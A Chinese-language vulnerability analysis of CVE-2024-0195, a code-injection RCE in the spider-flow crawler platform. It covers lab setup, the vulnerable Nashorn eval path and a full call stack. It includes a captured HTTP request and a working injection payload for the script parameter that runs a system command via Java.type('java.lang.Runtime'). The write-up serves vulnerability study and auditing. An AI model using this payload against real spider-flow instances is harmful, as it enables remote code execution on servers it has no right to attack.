


spider-flow RCE 漏洞分析 (CVE-2024-0195)

- - -

# spider-flow RCE 漏洞分析 (CVE-2024-0195)

## 简介

spider-flow 是一个高度灵活可配置的爬虫平台，平台以流程图的方式定义爬虫。

| 字段  | 值   |
| --- | --- |
| 漏洞编号 | CVE-2024-0195 |
| 厂商  | ssssssss |
| 影响对象类型 | 应用  |
| 影响产品 | spider-flow |
| 影响版本 | Up to (including)0.5.0 |

在 spider-flow 0.4.3 版本的 src/main/java/org/spiderflow/controller/FunctionController.java 文件的 FunctionService.saveFunction 函数中发现了一个被归类为关键的漏洞。该漏洞可导致代码注入，并允许远程发起攻击。

## 环境搭建

**源码下载**

```plain
git clone https://gitee.com/ssssssss-team/spider-flow.git
```

**数据库搭建**

```plain
mysql -u root -h 127.0.0.1 -p
source D:/audit-code/java/sqider-flow/db/spiderflow.sql
```

**配置文件修改**

IDEA 打开，修改 application.properties

```plain
// 修改为相应的数据库用户名和密码
spring.datasource.username=root
spring.datasource.password=root
```

**运行**

主类 SpiderApplication，IDEA 运行 Main 函数即可

```plain
public static void main(String[] args) throws IOException {

    SpringApplication.run(SpiderApplication.class, args);
}
```

配置文件中的端口为 8088，访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205101-64aa6cbc-bb80-1.png)

## 漏洞复现

触发点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205119-6fa8131c-bb80-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205137-7a358198-bb80-1.png)

抓包：

```plain
POST /function/save HTTP/1.1
Host: 10.151.220.236:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://10.151.220.236:8088
Connection: close
Referer: http://10.151.220.236:8088/function-edit.html
Cookie: JSESSIONID=43BED3B6A9E85CBF4C4754F334C36953; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706163744; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706167658

id=&name=aaa&parameter=aaa&script=aaa
```

设置 script 参数为`}Java.type('java.lang.Runtime').getRuntime().exec('calc');{`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205205-8af63996-bb80-1.png)

触发 rce

## 漏洞分析

通过/function/save 找到对应的 controller：FunctionController

```plain
@RequestMapping("/save")
public String save(Function function){
    return functionService.saveFunction(function);
}
```

这里的 Function 是 model，里面包含传入的数据，进入 service 层

```plain
public String saveFunction(Function entity) {
    try {
        // 对传入的数据进行过滤
        ScriptManager.validScript(entity.getName(),entity.getParameter(),entity.getScript());
        // 保存
        super.saveOrUpdate(entity);
        init();
        return null;
    } catch (Exception e) {
        logger.error("保存自定义函数出错",e);
        return ExceptionUtils.getStackTrace(e);
    }
}
```

这里的 entity 的三个 get 方法分别是获取传入的数据，然后通过 ScriptManager.validScript 进行验证

```plain
public static void validScript(String functionName,String parameters,String script) throws Exception {
    new ScriptEngineManager().getEngineByName("nashorn").eval(concatScript(functionName,parameters,script));
}
```

创建一个 `ScriptEngineManager` 对象，并通过 `getEngineByName("nashorn")` 方法获取一个名为 "nashorn" 的 JavaScript 引擎。nashorn 是 JDK 8 中引入的 JavaScript 引擎。引入之后将拼接后的脚本作为参数传递给 JavaScript 引擎的 `eval()` 方法进行执行

进入 concatScript 方法

```plain
private static String concatScript(String functionName,String parameters,String script){
    StringBuffer scriptBuffer = new StringBuffer();
    scriptBuffer.append("function ")
        .append(functionName)
        .append("(")
        .append(parameters == null ? "" : parameters)
        .append("){")
        .append(script)
        .append("}");
    return scriptBuffer.toString();
}
```

假设三个参数分别为 aaa，bbb，ccc，最后返回的是

```plain
function aaa(bbb){ccc}
```

> 在 Nashorn JavaScript 引擎中，可以使用 `Java` 全局对象来执行 Java 命令。`Java` 对象提供了与 Java 交互的功能，包括执行 Java 方法、创建 Java 对象等操作。
> 
> 要执行 Java 命令，请按照以下步骤进行操作：
> 
> 1.  获取 Nashorn 的 JavaScript 引擎实例：
>     
>     ```plain
>     ScriptEngine engine = new ScriptEngineManager().getEngineByName("nashorn");
>     ```
>     
> 2.  使用 `eval()` 方法执行 JavaScript 代码，其中包含 Java 命令：
>     
>     ```plain
>     engine.eval("Java.type('ClassName').staticMethodName(arguments)");
>     ```
>     
>     在上面的代码中，`ClassName` 是要执行的 Java 类的完全限定名，`staticMethodName` 是该类中的静态方法名。可以根据需要将参数传递给该方法。
>     
>     例如，如果要执行 `java.lang.System.out.println("Hello, Nashorn!")` 命令，可以使用以下代码：
>     
>     ```plain
>     engine.eval("Java.type('java.lang.System').out.println('Hello, Nashorn!')");
>     ```
>     
>     注意，在执行 Java 命令之前，需要确保所需的 Java 类和方法可在 Nashorn 运行时的类路径中找到。
>     

因此，输入恶意的 payload，通过拼接构造可以得到

```plain
function aaa(bbb){}Java.type('java.lang.Runtime').getRuntime().exec('calc');{}
```

这样能够成功命令执行

**调试**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205238-9eb70c76-bb80-1.png)

```plain
concatScript:83, ScriptManager (org.spiderflow.core.script)
validScript:96, ScriptManager (org.spiderflow.core.script)
saveFunction:41, FunctionService (org.spiderflow.core.service)
.....
save:34, FunctionController (org.spiderflow.controller)
```

**补充**

另外，eval 的调用在 ScriptManager 类的 registerFunction 方法中还有

```plain
public static void registerFunction(ScriptEngine engine,String functionName,String parameters,String script){
    try {
        //这里
        engine.eval(concatScript(functionName,parameters,script));
        functions.add(functionName);
        logger.info("注册自定义函数{}成功",functionName);
    } catch (ScriptException e) {
        logger.warn("注册自定义函数{}失败",functionName,e);
    }
}
```

前面添加的数据都存储在数据库中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205258-aa408306-bb80-1.png)

在项目重新启动时，会加载数据库中的 function，FunctionService 类中

```plain
@PostConstruct
private void init(){
    try {
        ScriptManager.lock();
        ScriptManager.clearFunctions();
        ScriptEngine engine = ScriptManager.createEngine();
        // 这里
        super.list().forEach(function -> {
            ScriptManager.registerFunction(engine,function.getName(),function.getParameter(),function.getScript());
        });
        ScriptManager.setScriptEngine(engine);
    } finally {
        ScriptManager.unlock();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125205314-b4090f3e-bb80-1.png)

因此，归根结底需要在插入数据时进行过滤

## 函数调用栈

```plain
exec:311, Runtime (java.lang)
invokeVirtual:-1, 1765795529 (java.lang.invoke.LambdaForm$DMH)
invoke:-1, 1578801260 (java.lang.invoke.LambdaForm$MH)
invoke:-1, 1163471607 (java.lang.invoke.LambdaForm$MH)
linkToCallSite:-1, Invokers$Holder (java.lang.invoke)
:program:1, 1022496358 (jdk.nashorn.internal.scripts.Script$2$\^eval\_)
invokeStatic:-1, DirectMethodHandle$Holder (java.lang.invoke)
invokeExact_MT:-1, 1798667958 (java.lang.invoke.LambdaForm$MH)
invoke:655, ScriptFunctionData (jdk.nashorn.internal.runtime)
invoke:513, ScriptFunction (jdk.nashorn.internal.runtime)
apply:527, ScriptRuntime (jdk.nashorn.internal.runtime)
evalImpl:456, NashornScriptEngine (jdk.nashorn.api.scripting)
evalImpl:413, NashornScriptEngine (jdk.nashorn.api.scripting)
evalImpl:409, NashornScriptEngine (jdk.nashorn.api.scripting)
eval:162, NashornScriptEngine (jdk.nashorn.api.scripting)
eval:264, AbstractScriptEngine (javax.script)
validScript:96, ScriptManager (org.spiderflow.core.script)
saveFunction:41, FunctionService (org.spiderflow.core.service)
invoke:-1, FunctionService$$FastClassBySpringCGLIB$$e94c0a86 (org.spiderflow.core.service)
invoke:204, MethodProxy (org.springframework.cglib.proxy)
intercept:684, CglibAopProxy$DynamicAdvisedInterceptor (org.springframework.aop.framework)
saveFunction:-1, FunctionService$$EnhancerBySpringCGLIB$$1faa70b1 (org.spiderflow.core.service)
save:34, FunctionController (org.spiderflow.controller)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:62, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:564, Method (java.lang.reflect)
doInvoke:209, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest:136, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle:102, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod:891, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal:797, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:991, DispatcherServlet (org.springframework.web.servlet)
doService:925, DispatcherServlet (org.springframework.web.servlet)
processRequest:981, FrameworkServlet (org.springframework.web.servlet)
doPost:884, FrameworkServlet (org.springframework.web.servlet)
service:661, HttpServlet (javax.servlet.http)
service:858, FrameworkServlet (org.springframework.web.servlet)
service:742, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:99, RequestContextFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:109, HttpPutFormContentFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, HiddenHttpMethodFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:200, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:198, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:140, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:342, CoyoteAdapter (org.apache.catalina.connector)
service:800, Http11Processor (org.apache.coyote.http11)
process:66, AbstractProcessorLight (org.apache.coyote)
process:806, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1130, ThreadPoolExecutor (java.util.concurrent)
run:630, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:832, Thread (java.lang)
```

这里也直接反映了 Nashorn 的处理过程

## 漏洞修复

漏洞暂未修复

## 参考

[https://avd.aliyun.com/detail?id=AVD-2024-0195](https://avd.aliyun.com/detail?id=AVD-2024-0195)

[https://mouse0w0.github.io/2018/12/02/Introduction-to-Nashorn/](https://mouse0w0.github.io/2018/12/02/Introduction-to-Nashorn/)
